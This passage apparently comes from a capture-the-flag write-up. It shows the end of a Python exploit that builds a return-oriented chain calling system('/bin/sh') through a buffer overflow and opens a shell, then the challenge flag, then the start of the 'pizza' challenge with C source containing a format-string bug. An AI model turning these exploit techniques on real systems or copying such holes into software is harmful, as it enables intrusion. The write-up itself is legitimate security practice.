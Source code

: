 ```python

input("next?")

# 0x0000000000196031 : /bin/sh
#  000000000004c490    45 FUNC    WEAK   DEFAULT   16 system@@GLIBC_2.2.5
# 0x00000000000277e5 : pop rdi ; ret
binsh = libcbase + 0x196031
system = libcbase + 0x4c490
pop_rdi = libcbase + 0x277e5

chain = flat([
    pop_rdi,
    binsh,
    system,
])
conn.sendline(b"A"*0x40 + p64(0xdeadbeef) + chain)

conn.interactive()
```

`lactf{amongsus_aek7d2hqhgj29v21}`

### pizza

`pizza.c`
```clike
#include <stdio.h>
#include <string.h>

const char *available_toppings[] = {...};

const int num_available_toppings =
    sizeof(available_toppings) / sizeof(available_toppings[0]);

int main(void) {
  setbuf(stdout, NULL);
  printf("Welcome to kaiphait's pizza shop!\n");
  while (1) {
    printf("Which toppings would you like on your pizza?\n");
    for (int i = 0; i < num_available_toppings; ++i) {
      printf("%d. %s\n", i, available_toppings[i]);
    }
    printf("%d. custom\n", num_available_toppings);
    char toppings[3][100];
    for (int i = 0; i < 3; ++i) {
      printf("> ");
      int choice;
      scanf("%d", &choice);
      if (choice < 0 || choice > num_available_toppings) {
        printf("Invalid topping");
        return 1;
      }
      if (choice == num_available_toppings) {
        printf("Enter custom topping: ");
        scanf(" %99[^\n]", toppings[i]);
      } else {
        strcpy(toppings[i], available_toppings[choice]);
      }
    }
    printf("Here are the toppings that you chose:\n");
    for (int i = 0; i < 3; ++i) {
      printf(toppings[i]);
      printf("\n");
    }
```